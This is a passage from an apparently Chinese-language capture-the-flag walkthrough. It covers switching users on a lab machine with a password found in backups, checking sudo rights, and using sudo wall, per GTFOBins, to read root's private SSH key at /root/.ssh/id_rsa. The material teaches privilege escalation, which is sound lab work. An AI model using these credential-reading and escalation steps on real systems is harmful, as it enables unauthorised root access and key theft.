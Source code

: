 在备份目录中发现密码文件。

## 用户权限提升

使用发现的密码切换到 ame 用户：

```bash
www-data@logi:/var/backups$ su ame
Password: xiangwozheyangderen
ame@logi:/var/backups$ id
uid=1000(ame) gid=1000(ame) groups=1000(ame)
```

成功切换到 ame 用户。

## Sudo 权限检查

检查 ame 用户的 sudo 权限：

```bash
ame@logi:/var/backups$ cd
ame@logi:~$ ls -la
total 28
drwxr-xr-x 3 ame  ame  4096 Sep 30 05:44 .
drwxr-xr-x 3 root root 4096 Sep 28 10:34 ..
lrwxrwxrwx 1 root root    9 Sep 28 10:37 .bash_history -> /dev/null
drwx------ 2 ame  ame  4096 Sep 29 07:33 .ssh
-r-------- 1 ame  ame    25 Sep 28 10:37 user.txt
-rw------- 1 ame  ame  7170 Sep 30 05:44 .viminfo
ame@logi:~$ sudo -l
Matching Defaults entries for ame on logi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ame may run the following commands on logi:
    (ALL) NOPASSWD: /usr/bin/wall
```

发现 ame 用户可以无密码执行 `/usr/bin/wall` 命令。

# 六、Root 权限获取

## GTFOBins 查询

查询 GTFOBins（https://gtfobins.github.io/gtfobins/wall/#sudo）发现 wall 命令可以用于提权，特别是 `--nobanner` 参数可以读取文件内容。

## wall 命令机制说明

这里需要了解一些有趣的技术细节。如果你现在的 shell 是 www-data（反弹），然后 su ame 的 shell，执行 `sudo wall --nobanner "/root/.ssh/id_rsa"` 会没有任何输出。
